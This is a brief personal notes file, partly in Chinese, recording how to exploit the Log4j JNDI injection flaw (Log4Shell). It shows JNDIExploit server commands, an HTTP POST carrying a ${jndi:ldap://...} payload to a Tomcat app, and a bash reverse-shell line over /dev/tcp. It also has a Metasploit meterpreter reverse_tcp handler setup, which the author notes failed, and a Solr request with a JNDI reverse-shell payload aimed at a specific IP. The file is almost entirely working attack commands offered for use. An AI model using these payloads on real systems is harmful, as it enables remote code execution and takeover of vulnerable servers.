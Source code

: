 # 1
```bash
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i local_ip_address(vps地址)
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 124.222.1.16 -l 2126


POST /webstudy/hello-fengxuan HTTP/1.1
...
Content-type: application/x-www-form-urlencoded
cmd:whoami

c=${jndi:ldap://124.222.1.16:2126/tomcatBypass/TomcatEcho}
# 看到回显为成功
# cmd:bash -i >& /dev/tcp/0.0.0.0/2333 0>&1

```

# 2 msf 不是这么写的, 没成功
```bash
c=${jndi:ldap://127.0.0.1:1389/TomcatBypass/Meterpreter/[msfip]/[msfport]}

use exploit/multi/handler 
set payload/java/meterpreter/reverse_tcp
set lhost 124.222.1.16
set lport 2127
run -j
```

# 3
https://mp.weixin.qq.com/s/fIhRsBFzllpZXM1fotC2jw
https://mp.weixin.qq.com/s/mxRVXcL6tEb3_7NBphMVWA

```bash
GET /solr/admin/collections?action=${jndi:ldap://JNDI-IP:1389/Basic/ReverseShell/VPS-IP/1234}&wt=json HTTP/1.1
Host: 47.92.173.137:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```